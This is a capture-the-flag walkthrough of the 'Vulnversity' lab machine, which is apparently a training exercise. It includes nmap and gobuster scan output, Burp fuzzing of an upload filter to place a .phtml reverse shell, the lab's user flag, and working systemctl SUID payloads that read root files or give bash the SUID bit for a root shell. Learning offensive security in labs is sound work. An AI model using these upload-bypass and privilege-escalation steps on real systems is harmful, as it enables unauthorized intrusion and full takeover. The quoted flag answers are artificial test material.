 # Vulnversity

### Reconnaissance

Scan the target

```
nmap -A -sC 10.10.84.35                          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-27 17:06 GMT
Nmap scan report for 10.10.84.35
Host is up (0.0090s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a4ffcb8c8761cb5851cacb286411c5a (RSA)
|   256 ac9dec44610c28850088e968e9d0cb3d (ECDSA)
|_  256 3050cb705a865722cb52d93634dca558 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-01-27T12:07:17-05:00
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2023-01-27T17:07:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.47 seconds
```

#### Questions

Scan the box, how many ports are open?

6

What version of the squid proxy is running on the machine?

3.5.12

How many ports will nmap scan if the flag -p-400 was used?

400

Using the nmap flag -n what will it not resolve?

DNS

What is the most likely operating system this machine is running?

Ubuntu

What port is the web server running on?

3333

### Locating directories with GoBuster

Run GoBuster `gobuster dir -u http://<ip>:3333 -w <word list location>`

```
gobuster dir -u http://10.10.84.35:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.84.35:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/27 17:15:00 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.84.35:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.84.35:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.84.35:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.84.35:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.84.35:3333/internal/]
/server-status        (Status: 403) [Size: 301]
Progress: 220050 / 220561 (99.77%)
===============================================================
2023/01/27 17:18:31 Finished
===============================================================
```

What is the directory that has an upload form?

/internal/

### Compromise the webserver

Use Burp to fuzz the upload form to see accepted extensions for the reverse shell

Make a wordlist with php extensions, upload a file and capture the request and send it to 
the intruder. 

Use sniper and the extension list to replace the php extension of your webshell. 
(don't include the `.` it will be urlencoded and the fuzzing won't work properly)

What extension is allowed?

.phtml

Upload the reverse shell, start a netcat listener and execute it with:

`http://<TARGET-IP>:<WEBSERVER-PORT>/internal/uploads/shell.phtml`

What is the name of the user who manages the webserver?

bill

What is the user flag?

8bd7992fbe8a6ad22a63361004cfcedb

### Privilege Escalation

Find binaries with SUID bit set `find / -perm /4000 -type -f -exec ls -ld {}\; 2>/dev/null`
or use linpeas.sh

On the system, search for all SUID files. What file stands out?

/bin/systemctl

GTFOBins shows an SUID exploit for systemctl:

```
TF=$(mktemp).service
echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "id > /tmp/output" <--- replace id with `cat <FILE>` (/root/root.txt)
> [Install]
> WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

This will output the contents of /root/root.txt to /tmp/output giving you the flag

Alternatively we can set the SUID bit on the bash binary to gain a root shell:

```
TF=$(mktemp).service
echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
/bin/bash -p 
```
